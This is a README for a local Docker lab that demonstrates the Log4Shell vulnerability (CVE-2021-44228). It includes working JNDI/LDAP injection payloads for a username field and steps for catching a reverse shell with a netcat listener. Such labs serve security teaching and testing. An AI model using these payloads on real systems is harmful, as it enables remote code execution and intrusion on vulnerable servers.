 ## Log4shell proof of concept
Proof of concept for CVE-2021-44228. To learn more about log4shell, check the
summary by [Snyk](https://github.com/snyk-labs/awesome-log4shell).

## To start all containers

```docker-compose up```

### Exploit 1:
Go go localhost:8080 and fill into username:

```${jndi:ldap://exploit:9999/Evil}```


### Exploit 2:

```${jndi:ldap://reverse-shell:1389/a}```

### Snyk
```
snyk test --all-projects
snyk-log4shell
```

### Shell 1
Start terminal in web-server

`docker-compose up web-server`

### Shell 2

```
docker-compose up exploit
docker-compose up reverse-shell
```

### Shell 3
Check web server to see if exploit worked:

`docker-compose exec web-server bash`

### Shell 4
Start terminal in ubuntu and listen for reverse shell:
```
docker-compose up -d ubuntu
docker-compose exec ubuntu bash
nc -lv 9001
```

## Credit
This PoC is heavily based on these resources:
- [kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)
- [snyk-labs/java-goof](https://github.com/snyk-labs/java-goof/tree/main/log4shell-goof)
